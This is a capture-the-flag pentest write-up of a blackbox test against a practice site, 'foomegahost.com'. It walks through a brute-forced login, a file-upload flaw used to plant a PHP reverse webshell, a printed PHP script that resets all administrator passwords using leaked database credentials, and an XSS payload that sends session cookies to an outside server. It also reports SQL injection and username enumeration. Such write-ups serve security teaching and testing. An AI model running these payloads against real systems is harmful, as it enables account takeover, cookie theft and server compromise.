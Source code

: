 ```yaml
---
description: CTF Blackbox testing of "foomegahost.com"
---
```


# Vulnerability Report - II

### Access to Support

#### Login as `test` User

We were able to login using the username (`test`) and password (`password1234`) obtained through the bruteforce attack.

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

### LFI Vulnerability

Local File Inclusion (LFI) vulnerability occurs when an application allows an attacker to include a file on the server that is not intended to be included. This can allow an attacker to execute arbitrary code, read sensitive files or even gain complete control over the server.

To check for LFI vulnerability, one approach is to try to upload a PHP file and change the file extension to an allowed file type like `.png`, and then intercept the request using Burp Suite. Then, we can modify the file extension back to PHP and forward the request. If the server processes the file as PHP instead of an image, it indicates that the application is vulnerable to LFI.

It's important to note that exploiting an LFI vulnerability can have serious consequences, including data theft, server compromise, and unauthorized access to sensitive information. Therefore, it's crucial to identify and address these vulnerabilities promptly to minimize the risk of exploitation.

<figure><img src="../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

In the JavaScript code of the page source, we can see that the extensions are checked at the client level instead of the server level. This makes the website vulnerable to LFI (Local File Inclusion) attacks.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

#### Building PHP webshell

We obtained a `PHP` webshell from [revshells.com](http://revshells.com/) for testing purposes. We intercepted the request using the Burp Suite and changed the extension back to `.php`.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/822910f4-d7fc-47ce-9a2a-c74254b8285a/Untitled.png)

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f1c6a9bb-83f5-4b5e-80d5-f5c5c84a4589/Untitled.png)

#### Launching the PHP Shell

To run our PHP webshell, we first need to go to the tickets area and then click on the attachments. This will allow us to obtain a reverse shell back on our Kali machine.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/dfc324fb-e2fe-4f75-8066-ab1d6f37d15b/Untitled.png)

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6bcc3bbc-6c6b-472f-a3fc-95e68aa34514/Untitled.png)

After gaining access to the Kali machine's shell, we can begin enumerating and searching for interesting files, such as `config.php`.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3be2da10-bd41-4554-ac03-cf89c0ef8522/Untitled.png)

#### Reading `config.php`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7db5ae10-e62a-4130-969c-a835d33da9a6/Untitled.png)

### Access to Intranet Area

#### [fmh-intranetarea.foomegahost.com](http://fmh-intranetarea.foomegahost.com)

According to the information found in the `config.php` file, the subdomain `fmh-interanetarea.` is mentioned. Upon visiting the `fmh-interanetarea.` subdomain, we were able to access its webpage. The screenshots are attached below. This subdomain seems to be for intranet login.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3e589a89-ada3-4df0-b075-5c9f57d73722/Untitled.png)

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7a86beb3-4ec0-460e-8d97-91b605d0e48e/Untitled.png)

### Admin Access

After identifying the LFI vulnerability and the `config.php` file that contains the details to connect to `MySQL`, we will attempt to change the password of users with `Administrator` rights, identified by the ID `1`. We will write a `.php` script that changes the password to `admin`, and upload it to change the passwords.

```clojure
<?php

// Define database connection parameters
$config['DB']['USERS']['dbname'] = "foomegahost";
$config['DB']['USERS']['dbhostname'] = "127.0.0.1:6603";
$config['DB']['USERS']['user'] = "res_foomegahost";
$config['DB']['USERS']['password'] = "C8COcl84QSbM9hL7EC7F";

// Create database connection
$conn = mysqli_connect($config['DB']['USERS']['dbhostname'], $config['DB']['USERS']['user'], $config['DB']['USERS']['password'], $config['DB']['USERS']['dbname']);

// Check if connection was successful
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}

// Update password for all rows where role=1
$sql = "UPDATE user SET password='21232f297a57a5a743894a0e4a801fc3' WHERE role=1";
$result = mysqli_query($conn, $sql);

// Check if update was successful
if ($result) {
    // Print the updated user table
    $sql = "SELECT * FROM user";
    $result = mysqli_query($conn, $sql);

    if (mysqli_num_rows($result) > 0) {
        echo "<table><tr><th>ID</th><th>Username</th><th>Password</th><th>Role</th></tr>";
        while ($row = mysqli_fetch_assoc($result)) {
            echo "<tr><td>" . $row["id"] . "</td><td>" . $row["username"] . "</td><td>" . $row["password"] . "</td><td>" . $row["role"] . "</td></tr>";
        }
        echo "</table>";
    } else {
        echo "0 results";
    }
} else {
    echo "Error updating password: " . mysqli_error($conn);
}

// Close database connection
mysqli_close($conn);

?>
```

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/afd57e63-fbc4-414a-8732-6ad6ac32441c/Untitled.png)

#### Admin Page

Now that we have changed the password for the `admin` user, we can log in to the admin area using the `admin` username and `admin` password.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b1e8aa4f-c629-4914-a32e-ac6656734128/Untitled.png)

### Miscellaneous

#### Information Disclosure

Listing the names of employees and clients on a website may pose a security risk as it can potentially allow attackers to gather sensitive information about them. This information can be misused for targeted attacks such as spear phishing, social engineering, or identity theft. It is important for organizations to carefully consider the information they make public on their website and implement appropriate measures to protect their employees and clients.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7d5b7515-2231-499f-b537-a8582a115f05/Untitled.png)

#### Admin Username Disclosure

If an adversary attempts to log in to the `me.foomegahost.com` members site using a non-administrator username, no particular error message is shown, but when the username `admin` is used, the site responds with a specific error message indicating the existence of the admin account. This can be exploited to carryout bruteforce attacks against the `admin` username.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6e9630b7-e272-4e88-a4ac-c84a04706f70/Untitled.png)

#### XSS Vulnerability

Cross-site scripting (XSS) is a type of security vulnerability commonly found in web applications. It occurs when an attacker is able to inject malicious code, usually in the form of a script, into a vulnerable website that is then executed in a victim's web browser. This can lead to the theft of sensitive information, such as user credentials or payment information, or the hijacking of the user's session. The screenshots are attached below.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6bebaa2f-68d4-4291-8e4d-1e5084338382/Untitled.png)

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/4c224f43-eb5e-4ec3-bb82-f2c5b4d3c3c8/Untitled.png)

#### Exfiltrating Cookies

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/795a3360-cba3-48f3-a579-f0b5675623b3/Untitled.png)

Additionally, the attacker can use the stolen cookies to impersonate the user and perform actions on their behalf. The following is an example proof-of-concept (PoC) showing how cookies can be exfiltrated to a Kali server using a simple XSS payload.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/613f77ba-d10e-477b-ad93-f0174da6b08e/Untitled.png)

```jsx
<script>var i=new Image();i.src="<http://172.16.5.70:8001/loot.php?q=>"+document.cookie;</script>
```

This payload creates a new image object and sets its source to a remote server, along with the user's cookie data. The remote server can now log the cookie data and use it for malicious purposes. It is important to note that XSS vulnerabilities can have serious consequences and should be addressed promptly to prevent attacks.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/95fd9474-600f-4abe-aa9a-b4859eb24e92/Untitled.png)

#### SQL Injection attack in Support Form

During our security testing, we discovered that the support form on the website is vulnerable to SQL injection. This means that an attacker can exploit this vulnerability to gain unauthorized access to the database or execute malicious code. We conducted a series of tests on various parameters, and our findings revealed that the `category` parameter is particularly vulnerable.

To demonstrate the severity of this vulnerability, we have included screenshots below that show the successful exploitation of the SQL injection vulnerability through the `category` parameter. It is important to address this vulnerability as soon as possible to prevent any potential damage that could be caused by a malicious attacker.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/223c21fd-d0b4-4a0d-ae89-dad2c583d468/Untitled.png)

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/10be1dec-8262-42d6-942d-00b3455c93c7/Untitled.png)

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e853fe6f-bbf9-480d-9849-198075748826/Untitled.png)

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/67a18c8a-d50f-4fde-91cd-2228b63a0c32/Untitled.png)

##
